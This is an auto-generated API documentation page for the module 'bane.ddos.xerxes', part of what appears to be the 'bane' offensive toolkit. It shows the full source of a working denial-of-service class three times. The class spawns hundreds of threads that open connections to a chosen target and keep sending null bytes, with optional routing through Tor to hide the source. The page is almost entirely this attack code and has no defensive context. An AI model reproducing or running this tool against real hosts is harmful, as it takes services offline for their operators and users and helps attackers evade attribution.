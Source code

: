 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.xerxes</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class xerxes(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        threads=500,
        timeout=5,
        duration=60,
        logs=False,
        tor=False,
    ):
        self.counter = 0
        self.target = u
        self.port = p
        self.stop = False
        self.duration = duration
        self.timeout = timeout
        self.tor = tor
        self.start = time.time()
        self.logs = logs
        self.id_key = 0
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
                self.id_key += 1
            except:
                pass

    def attack(self):
        try:
            x = self.id_key
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout(self.timeout)
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    self.counter += 1
                    &#34;&#34;&#34;if self.logs==True:
     #print(&#34;[Connected to {}:{}]&#34;.format(self.target,self.port))
     sys.stdout.write(&#34;\r[Connected to {}:{}]&#34;.format(self.target,self.port))
     sys.stdout.flush()&#34;&#34;&#34;
                    while True:
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        try:
                            s.send(&#34;\x00&#34;.encode(&#34;utf-8&#34;))  # send NULL character
                            if self.logs == True:
                                sys.stdout.write(&#34;\r[{}: Voly sent]    &#34;.format(x))
                                sys.stdout.flush()
                        except:
                            break
                        time.sleep(0.2)
                except:
                    pass
                self.counter -= 1
                time.sleep(0.3)
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.xerxes.xerxes"><code class="flex name class">
<span>class <span class="ident">xerxes</span></span>
<span>(</span><span>u, p=80, threads_daemon=True, threads=500, timeout=5, duration=60, logs=False, tor=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class xerxes(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        threads=500,
        timeout=5,
        duration=60,
        logs=False,
        tor=False,
    ):
        self.counter = 0
        self.target = u
        self.port = p
        self.stop = False
        self.duration = duration
        self.timeout = timeout
        self.tor = tor
        self.start = time.time()
        self.logs = logs
        self.id_key = 0
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
                self.id_key += 1
            except:
                pass

    def attack(self):
        try:
            x = self.id_key
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout(self.timeout)
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    self.counter += 1
                    &#34;&#34;&#34;if self.logs==True:
     #print(&#34;[Connected to {}:{}]&#34;.format(self.target,self.port))
     sys.stdout.write(&#34;\r[Connected to {}:{}]&#34;.format(self.target,self.port))
     sys.stdout.flush()&#34;&#34;&#34;
                    while True:
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        try:
                            s.send(&#34;\x00&#34;.encode(&#34;utf-8&#34;))  # send NULL character
                            if self.logs == True:
                                sys.stdout.write(&#34;\r[{}: Voly sent]    &#34;.format(x))
                                sys.stdout.flush()
                        except:
                            break
                        time.sleep(0.2)
                except:
                    pass
                self.counter -= 1
                time.sleep(0.3)
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.xerxes.xerxes.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        x = self.id_key
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                if self.tor == False:
                    s.settimeout(self.timeout)
                if self.tor == True:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                s.connect((self.target, self.port))
                self.counter += 1
                &#34;&#34;&#34;if self.logs==True:
 #print(&#34;[Connected to {}:{}]&#34;.format(self.target,self.port))
 sys.stdout.write(&#34;\r[Connected to {}:{}]&#34;.format(self.target,self.port))
 sys.stdout.flush()&#34;&#34;&#34;
                while True:
                    if (
                        int(time.time() - self.start) &gt;= self.duration
                    ):  # this is a safety mechanism so the attack won&#39;t run forever
                        break
                    if self.stop == True:
                        break
                    try:
                        s.send(&#34;\x00&#34;.encode(&#34;utf-8&#34;))  # send NULL character
                        if self.logs == True:
                            sys.stdout.write(&#34;\r[{}: Voly sent]    &#34;.format(x))
                            sys.stdout.flush()
                    except:
                        break
                    time.sleep(0.2)
            except:
                pass
            self.counter -= 1
            time.sleep(0.3)
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.xerxes.xerxes" href="#bane.ddos.xerxes.xerxes">xerxes</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.xerxes.xerxes.attack" href="#bane.ddos.xerxes.xerxes.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>